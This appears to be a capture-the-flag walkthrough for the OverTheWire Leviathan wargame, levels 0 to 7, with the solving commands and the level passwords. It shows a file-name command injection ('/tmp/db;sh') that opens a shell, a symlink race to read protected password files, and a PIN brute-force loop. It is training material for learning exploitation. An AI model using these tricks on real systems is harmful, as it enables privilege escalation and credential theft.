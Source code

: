 # [LEVIATHAN](https://overthewire.org/wargames/leviathan/)

## Level 0 -> Level 1
```bash
$ grep "leviathan1" ~/.backup/bookmarks.html 
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is rioGegei8m" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
```

## Level 1 -> Level 2
```bash
$ ./check 
password: sex
$ cat /etc/leviathan_pass/leviathan2
ougahZi8Ta
```

## Level 2 -> Level 3
### Method 1
```bash
$ touch "/tmp/db;sh"
 ./printfile "/tmp/db;sh"
/bin/cat: /tmp/db: No such file or directory
$ whoami
leviathan3
$ cat /etc/leviathan_pass/leviathan3
Ahdiemoo1j
```
### Method 2 (**TOCTOU race**)
```bash
$ mkdir /tmp/whokilleddb
$ touch /tmp/whokilledb/symlink\ space  
$ ln -s /etc/leviathan_pass/leviathan3 /tmp/whokilledb/symlink
$ ./printfile /tmp/whokilledb/symlink\ space
Ahdiemoo1j
/bin/cat: space: No such file or directory
```

## Level 3 -> Level 4
```python
[do_stuf]
[stack]
0xff87d340│+0x0000: 0xff87d360  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"       ← $esp
0xff87d344│+0x0004: 0xff87d355  →  "snlprintf\n"
[eip]
0x80485b7 <do_stuff+92>    call   0x80483d0 <strcmp@plt>
```
```bash
$ ./level3 
Enter the password> snlprintf
[You've got shell]!
$ cat /etc/leviathan_pass/leviathan4
vuH0coox6m
```

## Level 4 -> Level 5
```bash
$ ./.trash/bin 
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010 
# Decodes to: Tith4cokei
```

## Level 5 -> Level 6
```bash
$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log 
leviathan5@leviathan:~$ ./leviathan5 
UgaoFee4li
```

## Level 6 -> Level 7
**Bruteforce:**
```bash
$ for i in {0001..9999}; do echo Trying: $i ; ./leviathan6 $i | grep -v "Wrong" ; done
 ```

```bash
$ ./leviathan6  7123
$ cat /etc/leviathan_pass/leviathan7
ahy7MaeBo9
```
